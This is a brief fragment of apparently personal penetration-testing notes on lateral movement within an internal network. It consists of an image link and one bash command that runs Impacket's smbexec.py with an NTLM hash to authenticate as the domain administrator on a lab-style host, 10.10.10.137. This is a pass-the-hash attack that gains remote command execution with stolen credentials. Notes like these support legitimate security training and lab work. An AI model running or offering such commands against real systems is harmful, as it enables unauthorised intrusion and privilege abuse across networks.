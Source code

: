 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2010.png)

```bash
# smbexec.py
python3 smbexec.py -hashes :96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137
```
